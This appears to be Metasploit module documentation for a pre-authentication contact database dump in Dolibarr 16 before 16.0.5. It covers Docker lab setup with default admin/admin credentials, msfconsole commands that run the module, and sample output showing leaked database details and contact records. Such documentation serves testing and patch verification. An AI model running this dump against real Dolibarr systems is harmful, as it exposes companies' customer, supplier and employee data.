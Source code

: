 ## Vulnerable Application
### Dolibarr 16 pre-auth contact database dump

Dolibarr version 16 < 16.0.5 is vulnerable to a pre-authentication contact database dump.
An unauthenticated attacker may retrieve a company’s entire customer file, prospects, suppliers,
and potentially employee information if a contact file exists.
Both public and private notes are also included in the dump.

### Dolibarr GitHub Repository & Dolibarr setup with vulnerable docker image

If you need to setup Dolibarr,
this is the official GitHub Repository from Dolibarr or via docker with an unofficial but working image and docker-compose.
``` 
Official GitHub Repository:

https://github.com/Dolibarr/dolibarr/tree/16.0.4
```


Unofficial image with docker-compose:

`docker pull tuxgasy/dolibarr:16.0.4`

Important: This image does not contain a database. So you need to link it with a database container.

Use Docker Compose to integrate it with MariaDB (you can also use MySQL if you prefer).

Create docker-compose.yml file as following:
```
version: "3"

services:
    mariadb:
        image: mariadb:latest
        environment:
            MARIADB_DATABASE: dolibarr
            MARIADB_USER: dolibarr 
            MARIADB_PASSWORD: dolibarr
            MARIADB_RANDOM_ROOT_PASSWORD: 'yes'
    web:
        image: tuxgasy/dolibarr:16.0.4
        environment:
            DOLI_DB_HOST: mariadb
            DOLI_DB_USER: dolibarr
            DOLI_DB_PASSWORD: dolibarr
            DOLI_DB_NAME: dolibarr
            DOLI_URL_ROOT: 'http://0.0.0.0'
            PHP_INI_DATE_TIMEZONE: 'Europe/Paris'
        ports:
            - "80:80"
```

Then run all services with `docker-compose up -d`. Now, go to http://0.0.0.0 to access to the new Dolibarr installation.

## Dolibarr Configuration

Default credentials : admin/admin

Important:
Once Dolibarr is installed,
you will have to activate the Third-parties module and create at least one contact in the latter to validate that the module works.

To use this module, you must first enable it using an administrator account, via the menu option "Home - Setup - Modules/Applications".

Choose the tab where the module is listed. Then click on "Activate".

Finally, you can create a member via "Third-parties - New Contact/Address".

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/dolibarr_16_contact_dump`
4. Do: `set RHOSTS [IP] or [Dolibarr domain]`
5. Do: `exploit`
6. You should retrieve a file.

## Options

### TARGETURI

The path to Dolibarr instance.  Defaults to `/`,  `http://dolibarrdomain/`

## Scenarios

### Dolibarr 16.0.4 on Ubuntu 22.10
Exploitation of a Dolibarr 16.0.4.
```
msf > use auxiliary/scanner/http/dolibarr_16_contact_dump
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS http://[Dolibarr domain]/
RHOSTS => http://[Dolibarr domain]/
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable Dolibarr version: 16.0.4                                        
[+] Database type: mysqli                                                                
[+] Database name: dolibarr                                                              
[+] Database user: dolibarr                                                              
[+] Database host: mariadb                                                               
[+] Database port: 3306                                                                  
[+] Found 1 contacts.                                                                    
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_820189.json                                                                         
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_736790.csv                                                                          
[*] Scanned 1 of 1 hosts (100% complete)                                                 
[*] Auxiliary module execution completed
```
### Dolibarr 16.0.4 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 16.0.4 with an empty database.
```
msf > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable Dolibarr version: 16.0.4
[-] unexpected-reply: Dolibarr data did not include contacts field
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Dolibarr 17.0.0 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 17.0.0.
```
msf > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > set verbose true
verbose => true
msf auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected apparently non-vulnerable Dolibarr version: 17.0.0 ForceExploit is enabled, proceeding with exploitation.
[-] unexpected-reply: Exploit response code: 403
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Contact database dump
Here is an example of what your .csv and .json files would look like if the contact exfiltration was successful.

### .json

```
{
  "contacts": [
    {
      "db": {
        "db": {
        },
        "type": "mysqli",
        "forcecharset": "utf8",
        "forcecollate": "utf8_unicode_ci",
        "connected": true,
        "database_selected": true,
        "database_name": "dolibarr",
        "database_user": "dolibarr",
        "database_host": "mariadb",

        ...

        },
        "civility_code": "MR",
        "civility": "Mr.",
        "civilite": null,
        "address": "5100, rue de la Boatie",
        "zip": "69000",
        "town": "Lyon",
        "poste": "DSI",

        ...
```

### .csv

| id | country_code | state | note_private | lastname | firstname | civility | address | zip | town | poste | email |
|---|---|---|---|---|---|---|---|---|---|---|---|
|  1  | FR | Rhône |   | Latourelle | Valentine | Mrs. | 1700, Place de Paume | 69400 | Bron | CEO |  valentine@latourelle.latourelle |
|  2  | FR |   | don't make any discount |  Paston | Hugues | Mr. | 2200, rue Bonneteria | 59370 |  Mairieux | CEO | hugues@paston.paston |
|  3  | FR | Rhône  |   | Grivois | Thierry | Mr. | 5100, rue de la Boatie | 69000 | Lyon | DSI | thierry@grivois.grivois |
